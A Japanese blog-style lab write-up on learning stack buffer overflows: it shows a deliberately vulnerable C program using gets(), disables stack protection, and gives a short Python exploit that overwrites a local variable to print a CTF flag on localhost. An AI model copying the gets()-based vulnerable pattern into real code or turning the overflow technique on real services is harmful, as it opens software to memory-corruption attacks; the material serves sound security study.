# 概要

自分でPWNをいろいろ試す用のコード

# pwn_server.py

接続が来たら標準入出力を持つプログラムにプロセスを受け渡すプログラム。
標準入力に脆弱性を仕掛けておけばよいので楽

# 最も単純なPWN

```c:overflow01.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void saru(){
  char buf[16];
  int secret = 0;

  gets(buf);

  if (secret == 0xaabbccdd){
    puts("flag is OSAKA_UNIV_CTF");
  }else{
    printf("buf[] = %s\n", buf);
    printf("The secret is %x\n", secret);
  }
}

int main(int argc, char **argv){
  saru();

  return 0;
}
```

bufでオーバーフローを起こさせてsecretを書き換えてflagを出力させる。

まずは何も考えずにコンパイルしてみた。

```bash-session
$ gcc overflow01.c -o overflow01
overflow01.c: In function ‘saru’:
overflow01.c:9:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/ccrGzHYJ.o: In function `saru':
overflow01.c:(.text+0x2b): warning: the `gets' function is dangerous and should not be used.
$
```

gets危険だから使うなというwarningは出るけど一応コンパイルはできる。
サーバとして起動してみてtelnetで長い文字列を送り付けてみた。

```bash-sessoin
$ telnet localhost 28080
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
*** stack smashing detected ***: <unknown> terminated
Connection closed by foreign host.
$
```

するとstack smashing protection (SSP)のせいで落ちる。
SSPはcanaryを使ってスタックの書き換えを検知するやつらしい。
変数の順番も入れ替わるのか？

SSPを無効にするために-fno-stack-protectorオプションをつけてみた。

```bash-session
saru@lucifen:~/pwn001$ gcc overflow01.c -fno-stack-protector -o overflow01
overflow01.c: In function ‘saru’:
overflow01.c:9:3: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   gets(buf);
   ^~~~
   fgets
/tmp/cc7I14bT.o: In function `saru':
overflow01.c:(.text+0x1c): warning: the `gets' function is dangerous and should not be used.
saru@lucifen:~/pwn001$
```

そしてtelnetで攻撃。

```bash-session
saru@lucifen:~/pwn001$ telnet localhost 28080
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
buf[] = aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
The secret is d6161
Connection closed by foreign host.
saru@lucifen:~/pwn001$
```

無事にsecretを書き換えられたっぽい。

-fno-stack-protectorオプションを付けたときとつけなかったときのsecretとbufのアドレスが気になるのでチェックしてみた。

まずはSSPありバージョン

```bash-session
saru@lucifen:~/pwn001$ ./overflow01
buf address = f77afc20
secret address = f77afc1c
aaa
buf[] = aaa
The secret is 0
saru@lucifen:~/pwn001$
```

次にSSPなしバージョン

```bash-session
saru@lucifen:~/pwn001$ ./overflow01
buf address = 4c09df90
secret address = 4c09df8c
aaa
buf[] = aaa
The secret is 0
saru@lucifen:~/pwn001$
```

かわらない？
ということはSSPありでも書き換えられる？

0xf77afc20 - 0xf77afc1c = 4

0x4c09df90 - 0x4c09df8c = 4

なんかprintfでアドレス出力しているせいで配置が変わっているみたい．．．
最適化オプション-O3をつけても書き換えがうまくいかなくなるのでメモリ配置はかなり繊細っぽい。

## exploit codeを書いてみる

良く分からないのでとりあえずprintfでsecretの書き換えが成功している状態のものをexploit codeで書き換えるのを試してみることにする。

いろいろ試していたところ、どうやら改行コードを送るタイミングでstackdumpを起こしてしまいうまくsecretだけ書き換えることができない。

ので脆弱性を持っているコードを若干修正。

```c:overflow01.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void saru(){
  char buf[16];
  int dummy = 0x1234;
  int secret = 0;


  gets(buf);

  if (secret == 0xaabbccdd){
    puts("flag is HANDAI_CTF");
  }else{
    printf("buf[] = %s\n", buf);
    printf("The secret is %x\n", secret);
  }
}

int main(int argc, char **argv){
  saru();

  return 0;
}
```

そしてexploitコード。

```python:exploit01.py
import socket
import time



def main():
    buf = 'A' * 24
    buf = buf.encode()
    buf += b'\xdd\xcc\xbb\xaa'
    buf += '\n'.encode() 
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("localhost", 28080))
    time.sleep(1)
    print(buf)
    sock.sendall(buf)
    s = sock.recv(100)
    print(s.decode(errors='replace'))



if __name__ == "__main__":
    main()
```

うまくflagが取れた。

```bash-session
saru@lucifen:~/pwn001$ python exploit01.py
b'AAAAAAAAAAAAAAAAAAAAAAAA\xdd\xcc\xbb\xaa\n'
flag is HANDAI_CTF

saru@lucifen:~/pwn001$
```


# 参考サイト

[PWN入門](https://gist.github.com/matsubara0507/72dc50c89200a09f7c61)
